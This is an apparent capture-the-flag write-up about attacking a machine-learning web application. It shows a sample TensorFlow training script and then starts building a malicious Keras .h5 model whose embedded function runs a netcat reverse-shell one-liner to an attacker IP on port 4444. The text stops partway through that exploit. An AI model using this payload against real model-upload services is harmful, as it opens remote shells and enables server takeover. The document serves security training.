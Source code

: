 ## Enumeration
- Start navigating the website, to see what is the website is about.
![alt text](/imagesMD/artificial1.png)
- It looks like something related, to Machine Learning. i manually explored the website, and come across a python code related to machine learning training model. This is a sample not meaningful of real machine learning. It is a hint for us.
```python
import numpy as np
import pandas as pd
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers

np.random.seed(42)

# Create hourly data for a week
hours = np.arange(0, 24 * 7)
profits = np.random.rand(len(hours)) * 100

# Create a DataFrame
data = pd.DataFrame({
    'hour': hours,
    'profit': profits
})

X = data['hour'].values.reshape(-1, 1)
y = data['profit'].values

# Build the model
model = keras.Sequential([
    layers.Dense(64, activation='relu', input_shape=(1,)),
    layers.Dense(64, activation='relu'),
    layers.Dense(1)
])

# Compile the model
model.compile(optimizer='adam', loss='mean_squared_error')

# Train the model
model.fit(X, y, epochs=100, verbose=1)

# Save the model
model.save('profits_model.h5')
```
- So i registered an account to log in.
![alt text](/imagesMD/artificial2.png)
- We can upload a model. What i'm thinking here if we can upload an malicious model. So i googled about RCE with tensorflow. I used Deepseek LLM to generate a python code to generate a exploit.h5 in order to get reverse shell on the server. 
### Tensorflow RCE
```python
import tensorflow as tf
import os

def exploit(x):
    import os
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.xx.xx 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
```